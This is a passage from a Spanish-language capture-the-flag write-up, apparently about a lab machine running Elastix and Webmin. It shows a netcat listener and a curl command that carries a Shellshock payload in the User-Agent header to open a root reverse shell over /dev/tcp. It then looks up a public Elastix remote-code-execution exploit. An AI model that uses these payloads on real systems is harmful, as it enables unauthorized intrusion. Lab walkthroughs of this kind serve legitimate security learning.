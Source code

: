 Ingresamos al servicio alojado en el puerto `10000` y automáticamente detectamos una extensión `CGI`, lo que presuntamente puede ocasionar un ataque por `shellshock`, en esta ocasión la contraseña funcionó con el usuario `root` así como sucedió en la intrusión por `SSH`, logrando un mayor grado de enumeración de la máquina víctima.

<p align="center">
<img src="/assets/images/beep/07-page.png">   
</p> 

Nos ponemos en escucha por medio de un listener.

```bash
nc -lnvp 4564
```

Ejecutamos el siguiente comando, habilitando comunicaciones con cifrados débiles y entablando una reverse shell por medio de una ejecución remota de comandos en el script `session_login.cgi` como el usuario `root`.

```bash
curl --tlsv1.0 -sk -X GET "https://10.10.10.7:10000/session_login.cgi" -H "User-Agent: () { :; };echo;echo; /bin/bash -i >& /dev/tcp/10.10.14.3/4564 0>&1"
```

```bash
[root@beep webmin]# whoami
root
```

## INTRUSION 18650.py

Otro de los exploits públicos para `elastix` es ocasionado por una ejecución remota de comandos, por lo que vamos a utilizar el exploit `18650.py` para esta intrusión.

```bash
searchsploit elastix
```
```bash
#Resultados
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution | php/webapps/18650.py
```
